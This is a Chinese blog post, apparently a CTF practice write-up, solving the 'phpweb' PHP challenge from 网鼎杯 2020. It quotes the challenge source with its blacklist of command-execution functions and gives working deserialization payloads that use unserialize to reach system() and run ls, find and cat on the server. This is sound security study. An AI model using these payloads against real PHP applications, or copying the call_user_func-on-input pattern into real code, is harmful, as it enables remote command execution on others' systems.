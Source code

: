 ```yaml
---

title: 日常练习12

date: 2021-04-03 23:08:43

tags: 练习

categories: test58

---
```

今天做了一道简单的反序列化题目。  

# [网鼎杯 2020 朱雀组]phpweb  
打开题目，发现一个报错页面。  

[![](https://img.imgdb.cn/item/606ac7028322e6675c79d118.png)](https://img.imgdb.cn/item/606ac7028322e6675c79d118.png)  

这个报错界面一直在刷新，所以直接抓包尝试一下。  

[![](https://img.imgdb.cn/item/606ac7478322e6675c7a12e5.png)](https://img.imgdb.cn/item/606ac7478322e6675c7a12e5.png)  

抓包后的界面看起来没有什么提示，找了半天也不知道怎么操作，看了别人的wp后发现要用下方这两个上传的参数。  

我们这样构造：  

	func=file_get_contents&p=index.php

很明显这里func参数是一个函数，p是函数里的参数，至于如何判断出来的我也没找到解释，只能说ctf大佬的直觉吧。。。。   

这样构造后我们就能得到网页源码，整理如下：  

	<?php
	$disable_fun = array("exec","shell_exec","system","passthru","proc_open","show_source","phpinfo","popen","dl","eval","proc_terminate","touch","escapeshellcmd","escapeshellarg","assert","substr_replace","call_user_func_array","call_user_func","array_filter", "array_walk",  "array_map","registregister_shutdown_function","register_tick_function","filter_var", "filter_var_array", "uasort", "uksort", "array_reduce","array_walk", "array_walk_recursive","pcntl_exec","fopen","fwrite","file_put_contents");
	function gettime($func, $p) {
    $result = call_user_func($func, $p);
    $a= gettype($result);
    if ($a == "string") {
        return $result;
    } else {return "";}
	}
	class Test {
    var $p = "Y-m-d h:i:s a";
    var $func = "date";
    function __destruct() {
        if ($this->func != "") {
            echo gettime($this->func, $this->p);
        }
    }
	}
	$func = $_REQUEST["func"];
	$p = $_REQUEST["p"];

	if ($func != null) {
    $func = strtolower($func);
    if (!in_array($func,$disable_fun)) {
        echo gettime($func, $p);
    }else {
        die("Hacker...");
    }
	}
	?>  

很明显可以看出这是一道反序列化的题目，在Test类中，当我们给属性p和属性func赋值时会触发__destruct() 方法，这个方法会将值赋给p和func并且执行gettime()函数。  

我们跟进一下这个gettime函数，发现这个函数里调用了call_ user_func()函数，这个函数比较少见，它的作用很简单，就是把第一个参数作为回调函数调用。   

	call_user_func ( callable $callback , mixed $parameter = ? , mixed $... = ? ) : mixed
	第一个参数 callback 是被调用的回调函数，其余参数是回调函数的参数。
	返回值时返回回调函数的返回值。

这也就解释了为什么我们在一开始上传func为函数名，p为参数却可以返回执行这个函数的结果。  

那么这道题重点就在这个gettime()函数上了。最开始的思路就是上传func为一个命令执行函数，p为执行的语句，然后得到flag，但是我们可以看到，如果我们直接上传func，他会经过一个正则匹配。  

	if ($func != null) {
    $func = strtolower($func);
    if (!in_array($func,$disable_fun)) {
        echo gettime($func, $p);
    }else {
        die("Hacker...");
    }  

这个匹配里有一个黑名单，在代码的一开始就列了出来。  

	"exec","shell_exec","system","passthru","proc_open","show_source","phpinfo","popen","dl","eval","proc_terminate","touch","escapeshellcmd","escapeshellarg","assert","substr_replace","call_user_func_array","call_user_func","array_filter", "array_walk",  "array_map","registregister_shutdown_function","register_tick_function","filter_var", "filter_var_array", "uasort", "uksort", "array_reduce","array_walk", "array_walk_recursive","pcntl_exec","fopen","fwrite","file_put_contents"  

可以看到，他过滤了很多命令执行函数，也就是说我们不能直接构造func=system&p=ls这样的payload，那么我们就要想办法绕过这个黑名单。  

我们已经知道，这个黑名单只是过滤了func，而对p没有进行匹配，那么我们就可以考虑使用p来执行rce。  

我们前面已经看到了有一个Test类，而这个类里也调用了grttime()函数，同样有func和p属性，那么我们是不是可以用反序列化来绕过匹配呢？  

可以看到，黑名单中没有过滤反序列化函数，那么我们就可以使func=unserialize，然后用p来构造序列化后的字符串，如下所示：  

	<?php
	class Test {
    var $p = "ls";
    var $func = "system";
    function __destruct() {
        if ($this->func != "") {
            echo gettime($this->func, $this->p);
        }
    }
	}

	$a=new Test();
	echo serialize($a); 

得到的序列化： 

	O:4:"Test":2:{s:1:"p";s:2:"ls";s:4:"func";s:6:"system";}  

那么我们这样构造：  

	func=unserialize&p=O:4:"Test":2:{s:1:"p";s:2:"ls";s:4:"func";s:6:"system";}  

这样func作为函数执行将p的参数反序列化，而p可以执行Test类中的gettime()函数，从而达成了使用p来执行命令执行函数的目的。  

得到文件目录：  

[![](https://img.imgdb.cn/item/606acebe8322e6675c82156f.png)](https://img.imgdb.cn/item/606acebe8322e6675c82156f.png)  

查了根目录也没找到flag在哪，那么换一种方式查flag。  

	func=unserialize&p=O:4:"Test":2:{s:1:"p";s:18:"find / -name flag*";s:4:"func";s:6:"system";}  

这里的find / -name flag*语句是查询所有名字为flag的文件。  

[![](https://img.imgdb.cn/item/606acf2d8322e6675c828116.png)](https://img.imgdb.cn/item/606acf2d8322e6675c828116.png)  

看到这个/tmp/flagoefiu4r93有点可疑，那么查看一下这个文件内容。  

	func=unserialize&p=O:4:"Test":2:{s:1:"p";s:22:"cat /tmp/flagoefiu4r93";s:4:"func";s:6:"system";}  

[![](https://img.imgdb.cn/item/606acf958322e6675c82e359.png)](https://img.imgdb.cn/item/606acf958322e6675c82e359.png)  

确实这个文件就是flag。  

# 小结  

这道题目其实没有那么难，主要还是对于刚开始func和p参数的作用的猜测，用这两个参数获得题目源码，从而进行下一步，如果积累够多，其实可以推测出func就是call_ user_func()函数，也就避免了兜兜转转。

关于反序列化，还是找可执行函数和构造pop链，还是要多练才行。